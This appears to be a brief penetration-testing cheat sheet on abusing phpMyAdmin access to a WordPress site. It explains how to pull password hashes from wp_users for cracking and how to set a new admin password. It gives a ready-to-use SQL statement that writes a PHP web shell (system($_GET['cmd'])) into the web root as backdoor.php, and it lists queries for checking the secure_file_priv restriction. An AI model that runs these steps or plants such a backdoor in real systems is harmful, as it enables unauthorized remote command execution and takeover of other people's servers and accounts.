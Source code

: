 # phpmyadmin to get wordpress hash for crackin or set new password 

## get hash in wp_users table 


## set new password
https://ehikioya.com/wordpress-password-hash-generator/  

login to wp-admin 

## write shell into file
create database --> choose database and press SQL

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

## No write permission --> --secure file Priv

get files to write to

```sql
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv"; 
```
#


tags: wordpress phpmyadmin

